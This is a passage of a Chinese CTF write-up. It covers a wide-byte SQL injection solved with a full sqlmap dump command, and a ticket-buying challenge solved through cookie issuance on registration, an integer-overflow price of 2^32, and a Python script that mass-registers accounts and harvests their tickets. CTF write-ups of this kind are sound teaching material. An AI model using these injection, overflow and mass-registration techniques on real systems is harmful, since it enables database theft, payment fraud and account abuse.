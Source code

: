 发现注释掉的接口，访问后提示要传入param参数

经过一番探测后发现是宽字节注入，没有任何过滤，只addslash了单引号和过滤了等号，既然过滤这么少那么就SQLMap一把梭吧：

```
sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=%df" --dbms=mysql --technique T --hex - -level 3 -D ctfdb -T ctf_fhmHRPL5 -C ctf_value --dump
```

![](https://upload-images.jianshu.io/upload_images/11356161-8a9cb1066bf3264e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

#### 大吉大利,今晚吃鸡~

这个题代码逻辑有漏洞.....注册页如果提示用户已注册的话会直接办法cookie，所以也就意味着可以登录任意账号

进入题目需要买票，2000元但我们只有100元

抓包创建订单链接发现价格是前端传入的，尝试修改发现只允许>0，猜测存在整形溢出，尝试uint32，传入2^32

![](https://upload-images.jianshu.io/upload_images/11356161-ec93f5a00a649b42.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

接着点击支付即会在后端发生溢出，成功支付

进入后台

![](https://upload-images.jianshu.io/upload_images/11356161-bec3fb7e2701b32b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

需要输入id和ticket来移除对手，最后吃鸡的话才有flag。所以思路很清楚了，写脚本注册账号，提取id和ticket后给自己大号杀，让大号吃鸡

```python
import requests
import time

users = (str(i) for i in range(500, 1000))

with open('t', 'a+') as fp:
    ts = set(fp.read().split('\n'))
    for u in users:
        time.sleep(1)
        s = requests.Session()
        r = s.get(f'http://117.51.147.155:5050/ctf/api/register?name={u}&password=12345678')
        print(f'http://117.51.147.155:5050/ctf/api/register?name={u}&password=12345678')
        try:
            resp = r.json()
        except:
            pass
        if resp['code'] != 404:
            continue

        r = s.get('http://38.106.21.229:5000/ctf/api/buy_ticket?ticket_price=4294967296')
        r = s.get("http://38.106.21.229:5000/ctf/api/pay_ticket?bill_id=" + r.json()['data'][0]['bill_id'])
        r = s.get('http://117.51.147.155:5050/ctf/api/search_ticket')
        try:
            resp = r.json()
        except:
            pass
    
        for tmp in resp['data']:
            _id = tmp['id'] 
            t = tmp['ticket']
            if str(_id)+'::'+t not in ts:
                fp.write(str(_id)+'::'+t+'\n')
    
```
